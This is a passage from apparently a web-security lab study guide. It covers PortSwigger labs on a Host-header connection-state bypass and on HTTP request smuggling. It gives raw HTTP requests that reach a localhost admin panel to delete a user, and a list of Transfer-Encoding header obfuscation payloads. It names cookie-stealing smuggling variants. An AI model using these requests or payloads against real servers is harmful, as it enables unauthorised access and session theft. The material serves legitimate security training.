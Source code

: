 > Target is vulnerable to **routing-based SSRF** via the Host header, but validate connection state of the first request. Sending grouped request in sequence using **single connection** and setting the connection header to **keep-alive**, bypass host header validation and enable SSRF exploit of local server.

```html
GET / HTTP/1.1
Host: TARGET.net
Cookie: session=ValueOfSessionCookie
Content-Length: 48
Content-Type: text/plain;charset=UTF-8
Connection: keep-alive
```

> Next request is the second tab in group sequence of requests.

```html
POST /admin/delete HTTP/1.1
Host: localhost
Cookie: _lab=YOUR-LAB-COOKIE; session=YOUR-SESSION-COOKIE
Content-Type: x-www-form-urlencoded
Content-Length: 53

csrf=TheCSRFTokenValue&username=carlos
```

> Observe that the second request has successfully accessed the admin panel.

[PortSwigger Lab: Host validation bypass via connection state attack](https://portswigger.net/web-security/host-header/exploiting/lab-host-header-host-validation-bypass-via-connection-state-attack)

***

### HTTP Request Smuggling

> Architecture with front-end and back-end server, and front-end or back-end does not support chunked encoding **(HEX)** or content-length **(Decimal)**. Bypass security controls to retrieve the victim's request and use the victim user's cookies to access their account.

[TE.CL dualchunk - Transfer-encoding obfuscated](broken-reference)\
[TE.CL multiCase - Admin blocked](broken-reference)\
[CL.TE multiCase - Admin blocked](broken-reference)\
[CL.TE multiCase - Content-Length Cookie Stealer](broken-reference)\
[CL.TE multiCase - User-Agent Cookie Stealer](broken-reference)\
[HTTP/2 smuggling - CRLF injection Cookie Stealer](broken-reference)\
[HTTP/2 TE - Admin Cookie Stealer](broken-reference)

#### TE.CL dualchunk - Transfer-encoding obfuscated

> If Duplicate header names are allowed, and the vulnerability is detected as **dualchunk**, then add an additional header with name and value = **Transfer-encoding: cow**. Use **obfuscation** techniques with second TE.

```
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```